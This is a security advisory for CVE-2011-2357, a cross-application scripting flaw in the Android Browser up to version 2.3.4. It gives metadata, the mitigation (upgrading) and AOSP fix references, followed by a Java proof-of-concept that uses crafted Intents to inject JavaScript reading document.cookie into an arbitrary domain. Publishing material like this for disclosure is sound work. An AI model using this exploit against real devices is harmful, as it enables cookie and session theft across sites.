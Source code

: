 ```yaml
---
layout: vuln
credit:
    - roeeh
    - yair
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2011-07-31' 
alephid: ALEPH-2011000
cve: CVE-2011-2357
date: '2011-07-31'
title: 'Android Browser Cross-Application Scripting'
severity: high
product:
    - Android 2.3.4 and below
mitigation: 
    - Install Android 2.3.5 or 3.2. 

references:
    - src: Paper
      url: http://blog.watchfire.com/files/advisory-android-browser.pdf
    - src: 'AOSP Commit #1'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=afa4ab1e4c1d645e34bd408ce04cadfd2e5dae1e
    - src: 'AOSP Commit #2'
      url: http://android.git.kernel.org/?p=platform/packages/apps/Browser.git;a=commit;h=096bae248453abe83cbb2e5a2c744bd62cdb620b
---
```

By generating a malicious Intent that targets Android's Browser, Malware may epxloit the Android's Browser URL loading process in order to inject JavaScript code into an arbitrary domain, thus breaking Android's sandboxing.

## Proof-of-Concept ##
```java
public class CasExploit extends Activity
{
    static final String mPackage = "com.android.browser";
    static final String mClass = "BrowserActivity";
    static final String mUrl = "http://target.domain/";
    static final String mJavascript = "alert(document.cookie)";
    static final int mSleep = 15000;

    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        startBrowserActivity(mUrl);
        
        try {
            Thread.sleep(mSleep);
        }
        
        catch (InterruptedException e) {}
        startBrowserActivity("javascript:" + mJavascript);
    }
    private void startBrowserActivity(String url) {
        Intent res = new Intent("android.intent.action.VIEW");
        res.setComponent(new ComponentName(mPackage,mPackage+"."+mClass));
        res.setData(Uri.parse(url));
        startActivity(res);
    }
}
```